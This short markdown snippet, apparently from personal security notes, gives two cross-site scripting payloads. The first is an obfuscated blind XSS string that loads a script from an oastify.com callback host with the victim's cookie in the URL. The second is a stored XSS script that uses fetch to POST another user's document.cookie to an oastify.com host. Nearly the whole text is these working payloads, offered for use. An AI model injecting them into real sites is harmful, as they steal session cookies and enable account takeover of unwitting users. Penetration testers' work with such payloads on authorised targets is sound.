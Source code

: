
## Blind XSS (OOB) Payload :

The following can be used to test for the presence of a blind XSS vulnerability :

```
</script><svg/onload%3d'%2b/"/%2b/onmouseover%3d1/%2b(s%3ddocument.createElement(/script/.source),+s.stack%3dError().stack,+s.src%3d(/,/%2b/document.cookie().r6y1z743zsk1mg0y5ie2nwss2j8aw4kt.oastify.com/).slice(2),+document.documentElement.appendChild(s))//'>
```

The following can be used to exfiltrate another user's cookie via Stored XSS : 

```
<script>fetch("https://abpk4q9m4bpkrz5ha1jlsfxb72dt1opd.oastify.com",{method:'POST',mode:'no-cors',body:document.cookie});</script>
```